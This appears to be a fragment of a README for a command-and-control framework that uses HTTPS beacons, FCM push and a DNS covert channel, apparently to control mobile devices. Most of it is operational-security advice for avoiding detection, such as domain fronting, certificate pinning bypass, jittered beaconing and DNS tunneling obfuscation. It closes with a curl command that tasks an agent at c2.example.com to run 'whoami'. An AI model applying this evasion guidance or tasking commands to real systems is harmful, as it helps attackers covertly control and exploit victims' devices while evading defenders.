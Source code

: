 ## Operational Security Considerations

### HTTPS Beacon
- Use legitimate SSL certificates
- Implement domain fronting where possible
- Rotate user agents regularly
- Monitor for certificate pinning detection
- Use jittered beacon intervals

### FCM Push
- Register legitimate FCM project
- Use authentic notification channels
- Implement proper wake-lock management
- Monitor battery optimization settings
- Fallback to polling if FCM blocked

### DNS Covert Channel
- Use legitimate domain registrations
- Implement query timing variation
- Monitor DNS query patterns
- Use multiple DoH providers
- Compress data to minimize queries

## Security Features

### Encryption & Encoding
- All profiles support data compression
- Multiple encoding schemes available
- SSL/TLS encryption for HTTP profiles
- DNS tunneling obfuscation techniques

### Evasion Capabilities
- Mobile user-agent rotation (HTTPS)
- Certificate pinning bypass (HTTPS)  
- Wake-lock management (FCM)
- DNS query pattern obfuscation (DNS)
- Multi-provider failover (DNS)

### Operational Diversity
- Multiple communication channels
- Priority-based task handling
- Automatic fallback mechanisms
- Configurable timing parameters
- Health monitoring and reporting

## Usage Examples

### HTTPS Beacon - Adding High Priority Task
```bash
curl -X POST https://c2.example.com/admin/task \
  -H "Content-Type: application/json" \
  -d '{
    "command": "execute",
    "payload": {"cmd": "whoami"},
    "priority": "HIGH",
    "agent_id": "specific_agent"
  }'
```
